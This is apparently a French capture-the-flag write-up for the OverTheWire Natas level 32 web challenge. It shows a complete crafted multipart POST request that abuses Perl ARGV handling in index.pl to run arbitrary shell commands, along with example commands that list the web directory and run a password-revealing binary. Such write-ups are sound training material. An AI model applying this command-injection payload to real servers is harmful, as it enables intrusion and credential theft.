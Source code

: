 En utilisant la requête HTTP suivante, il est possible d'envoyer la commande que l'on souhaite. Il suffit de remplacer \<command\> par ce que l'on souhaite exécuter 
```http
POST /index.pl?<command>%20| HTTP/1.1
Host: natas32.natas.labs.overthewire.org
Content-Length: 403
Cache-Control: max-age=0
Authorization: Basic bmF0YXMzMjpubzF2b2hzaGVDYWl2M2llSDRlbTFhaGNoaXNhaW5nZQ==
Upgrade-Insecure-Requests: 1
Origin: http://natas32.natas.labs.overthewire.org
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQb9Tb7uqq6QBhPkN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://natas32.natas.labs.overthewire.org/index.pl
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundaryQb9Tb7uqq6QBhPkN
Content-Disposition: form-data; name="file";

ARGV
------WebKitFormBoundaryQb9Tb7uqq6QBhPkN
Content-Disposition: form-data; name="file"; filename="forged.csv"
Content-Type: text/csv

header1,header2
row1,row2

------WebKitFormBoundaryQb9Tb7uqq6QBhPkN
Content-Disposition: form-data; name="submit"

Upload
------WebKitFormBoundaryQb9Tb7uqq6QBhPkN--
```

Exemple: 
<code>command = ls%20/var/www/natas/natas32%20-la</code>
Il est important de noter que la commande quoi être url-encoded

Fichiers dans la directory /var/www/natas/natas32:
![[Fichiers de la directory.png]]

Fichier getpassword.c:
![[getpassword.c.png]]

Ensuite, il suffit d'exécuter le fichier avec 
<code>command = /var/www/natas/natas32/getpassword</code> 
et on a le mot de passe

Conclusion:
C'était la même chose que le niveau précédent. Il suffisait de le pousser un tout petit peu plus loin en exécutant un programme, mais il suffisait de continuer la [vidéo précédente](https://www.youtube.com/watch?v=BYl3-c2JSL8&t=1011s)pour savoir quoi faire

